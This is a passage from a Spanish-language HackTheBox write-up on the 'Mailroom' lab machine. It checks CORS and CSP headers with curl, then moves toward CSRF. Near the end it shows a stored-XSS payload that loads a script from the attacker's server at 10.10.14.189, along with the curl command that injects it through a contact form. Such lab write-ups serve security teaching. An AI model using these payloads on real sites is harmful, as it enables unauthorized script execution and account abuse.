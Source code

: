 ![forbidden](/assets/hackthebox/img/machines/hard/mailroom/forbidden.png)

Recordando el XSS veamos si nos responde el header `Access-Control-Allow-Origin` que utiliza `CORS` cuando un navegador envia una peticion desde un dominio o subdominio diferente al solicitado.

*Cuando un sitio intenta obtener contenido de otro sitio, el encabezado Access-Control-Allow-Origin especifica dónde se puede acceder al contenido de una página*

{% highlight sh %}
λ ubuntu-pc Mailroom → curl --url http://staff-review-panel.mailroom.htb --header "Origin: http://127.0.0.1" --header "Referer: http://127.0.0.1" --head
HTTP/1.1 403 Forbidden
Date: Mon, 14 Aug 2023 01:03:58 GMT
Server: Apache/2.4.54 (Debian)
Content-Type: text/html; charset=iso-8859-1
{% endhighlight %}
De todas formas no nos devuelve nada interesante, lo cual podemos sospechar que hay un control de acceso que comprueba la ip de origen (enviemos lo que enviemos nos devolvera Forbidden porque nuestra ip no esta permitida)

#### **Comprobacion de `CSP`**.
{% highlight sh %}
λ ubuntu-pc Mailroom → curl --url http://10.10.11.209 --head
HTTP/1.1 200 OK
Date: Mon, 14 Aug 2023 00:40:22 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Content-Type: text/html; charset=UTF-8
{% endhighlight %}

*CSP*: *Enumera y describe rutas y fuentes, desde las cuales el navegador puede cargar recursos de manera segura.*

No esta definido el `Content-Security-policy` header, osea podemos ejecutar codigo javascript arbitrario utilizando el XSS.
### **CSRF - staff-review-panel.mailroom.htb**

Llamemos a un script de nuestro servidor.

`<script src="http://10.10.14.189:8000/enum/pwn.js"></script>`
{% highlight sh %}
λ ubuntu-pc Mailroom → curl --silent --request POST --data-raw "email=l1nvx%40l1nvx&title=l&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.189%3A8000%2Fenum%2Fpwn.js%22%3E%3C%2Fscript%3E" --url "http://10.10.11.209/contact.php" 1>/dev/null
{% endhighlight %}
